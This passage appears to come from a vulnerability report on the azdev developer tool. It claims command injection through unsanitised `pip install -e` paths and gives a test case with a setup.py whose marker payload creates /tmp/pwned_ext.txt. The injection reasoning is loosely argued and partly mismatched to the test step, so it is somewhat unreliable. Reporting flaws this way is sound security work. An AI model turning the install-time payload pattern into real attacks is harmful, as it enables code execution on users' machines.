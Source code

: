     def _install_extensions(ext_paths):
        # ...
        # install specified extensions
        for path in ext_paths or []:
            result = pip_cmd('install -e {}'.format(path), "Adding extension '{}'...".format(path)) # Vulnerable code
            if result.error:
                raise result.error  # pylint: disable=raising-bad-type
    ```
    - The code uses `pip_cmd("install -e {}".format(path))` which executes `pip install -e` with paths constructed using `ext_paths` without any sanitization. This allows command injection if `ext_paths` is malicious.
* Security Test Case:
    1. Create a directory named `malicious_extension_repo` in `/tmp`.
    2. Inside `/tmp/malicious_extension_repo`, create a file `setup.py` with the following content:
    ```python
    from setuptools import setup

    setup(
        name='malicious-extension',
        version='0.1.0',
        packages=['malicious_extension'],
        entry_points={
            'console_scripts': [
                'malicious-ext-command=malicious_extension:malicious_function',
            ],
        },
    )

    import os
    import sys

    def malicious_function():
        # Malicious payload to create a file in /tmp directory
        open('/tmp/pwned_ext.txt', 'a').close()
        print("PWNED EXT")

    if __name__ == '__main__':
        malicious_function()
    ```
    3. Open a terminal and navigate to the root directory of the `azdev` project.
    4. Run the command: `azdev setup --repo /tmp/malicious_extension_repo`
    5. After the command completes (or fails), check if the file `/tmp/pwned_ext.txt` exists.
    6. If `/tmp/pwned_ext.txt` exists, the vulnerability is confirmed. The "PWNED EXT" message should also be printed to the console output during `azdev setup`.

### Command Injection in `azdev cli create` and `azdev extension create`
